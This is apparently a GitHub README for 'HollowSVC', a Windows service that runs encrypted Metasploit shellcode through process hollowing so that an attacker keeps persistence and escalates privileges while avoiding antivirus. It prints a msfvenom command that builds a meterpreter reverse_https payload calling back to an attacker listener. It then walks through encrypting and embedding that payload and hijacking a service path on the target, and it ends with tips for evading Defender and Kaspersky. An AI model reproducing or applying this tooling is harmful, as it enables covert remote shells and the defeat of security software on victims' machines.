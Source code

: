 <p align="center">
    <img src="/img/8-EoupSza0CCIElrl.png" alt="Logo" width="350" height="350">
</p>
This program is a Windows Service that utilizes the 'process hollowing' technique to run shellcode. It requires the ROT-encrypted shellcode that the user will create using the HollowCrypt program. I created this because there were moments when I needed a custom and straightforward way to run Metasploit shellcode on a Windows Service for persistence/privilege escalation, and using common tools would trigger the AV over my binaries... 


## How to use it

First, we need to create our shellcode:
```
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.1.147 LPORT=443 EXITFUNC=thread -f csharp
```

Then, edit the HollowCrypt source code , compile and execute:
```
HollowCrypt.exe
```

After that, replace the encrypted shellcode in the HollowSVC source code. 
Now  compile the service in the arch of your target, setup your listener, hijack the binary/path in the target and run!

## POC
Running service with path to HollowSVC executable:
<p align="center">
  <img src="/img/legitsvc2.png" alt="legitsvc2" width="350" height="350">
</p>

Meterpreter retrieved:
<p align="center">
  <img src="/img/legitsvc3.png" alt="legitsvc3" width="700" height="150">
</p>

Defender FUD, you will still need to implemente OPSEC and be careful when launching meterpreter modules:
<p align="center">
  <img src="/img/legitsvc4.png" alt="legitsvc4" width="500" height="350">
</p>
And remember, there is always ways to improve this! (Use HTTPS cert with meterpreter, load STDAPI afterwards receiving the callback, meterpreter auto-migrate module, use dynamic shellcode encoding ,custom shellcode, etc)

Following those tips, you can bypass AVs like Kaspersky ;-)
<p align="center">
  <img src="/img/photo_2023-07-20_22-35-40.jpg" alt="photo_2023-07-20_22-35-40.jpg" width="1200" height="700">
</p>
<p align="center">
  <img src="/img/photo_2023-07-20_22-36-35.jpg" alt="photo_2023-07-20_22-36-35.jpg" width="700" height="470">
</p>




